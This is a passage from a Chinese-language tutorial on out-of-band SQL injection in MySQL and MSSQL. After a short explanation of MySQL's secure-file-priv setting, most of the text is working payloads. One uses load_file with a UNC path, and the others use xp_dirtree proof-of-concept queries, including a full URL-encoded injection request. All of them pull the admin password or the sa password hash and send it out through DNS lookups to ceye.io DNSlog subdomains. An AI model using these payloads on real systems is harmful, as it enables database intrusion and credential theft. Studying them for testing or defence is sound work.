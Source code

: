 `secure-file-priv` 的值可以分为三种情况：
- 值为null，表示显示mysqld不允许导入|导出;
- 值为/tmp/，表示限制mysqld的导入|导出只能发生在/tmp/目录下，此时如果读写发生在其他文件夹中，就会报错;
- 没有具体值，表示不对mysqld的导入|导出做限制。

除此之外，读取或写入文件必须拥有可操作的用户权限否则会报错。ERROR 1045 (28000): Access denied for user

下面使用load_file() 读取本地文件，假设可注入参数为：id。

载荷：`id=1 union select 1,2,load_file(concat('\\\\',(select hex(password) from test.test_user where  user='admin' limit 1),'.mysql.nk40ci.ceye.io\\abc'))`

说明：
- `password`的值会被传到.mysql.nk40ci.ceye.io\\abc。
- 使用hex()目的是减少特殊字符不能被DNS解析等干扰或编码；
- linux下无法用load_file使用dnslog，这是因为windows下使用UNC路径，即windows命名管理，用于指定和映射驱动器。例如 `\\\ss.xx\t\`
- 上面CONCAT函数拼接了4个\ ,转义后就是2个，使用unc路径，最后构造的就是 `\\密码16进制值.mysql.nk40ci.ceye.io\abc`

### mssql

网上流传较广的一个poc：
```
DECLARE @host varchar(1024);

SELECT @host=(SELECT TOP 1master.dbo.fn_varbintohexstr(password_hash)FROM sys.sql_loginsWHERE name='sa')+'.ip.port.b182oj.ceye.io';

EXEC('master..xp_dirtree"\'+@host+'\foobar$"');
```

上面的代码可以在数据库控制台执行，得到sa用户hex编码。

ms sqlserver 中字段名是不能和自定义函数名字冲突的，如果冲突需要[] 将字段用包裹，例如：

`select pass FROM test.dbo.test_user where [USER]='admin'`

这里的user字段正好和系统的user()函数相同，所以字段需要 [ ] 包裹。

此外，在sqlserver中当需要字符串拼接的时候，如果字段的值的长度没有达到表结构字段的长度，就会用空格来填充。例如pass字段设置的长度是50，所但是值实际的长度是8，之所以剩余的长度就用空格填充了。这个时候就用想办法去掉空格，查阅手册可以发现rtrim函数是可以去除右边空格的：
`select ((select rtrim(pass) from test.dbo.test_user where [USER]='admin')+'.xxnk40ci.ceye.io')`

由于域名是不能带有些特殊字符的，所以我们最好能将查询出来的值编码之后再和域名进行拼接，但是在查阅了sqlserver的手册之后，没有发现可以直接对字符类型进行编码的函数，只有将2进制转换成Hex的函数，所以这里我需要先将字符类型强制转换成varbinary二进制类型，然后再将二进制转化成Hex编码之后的字符类型。先转换成二进制,再把二进制转换成字符类型的Hex编码:

`select ((select master.dbo.fn_varbintohexstr(convert(varbinary,rtrim(pass))) from test.dbo.test_user where [USER]='admin')+'.xx.nk40ci.ceye.io')`

完整poc：
```
http://127.0.0.1/mssql.php?id=1;
DECLARE @host varchar(1024);SELECT @host=(SELECT master.dbo.fn_varbintohexstr(convert(varbinary,rtrim(pass))) 
FROM test.dbo.test_user where [USER] = 'admin')%2b'.cece.nk40ci.ceye.io';
EXEC('master..xp_dirtree "\'%2b@host%2b'\foobar$"');
```
此处有个小问题，因为拼接用到了+号，+号在url中如果不url编码到代码层的时候就成空格了，所以我们需要在提交之前对+号url编码为%2b
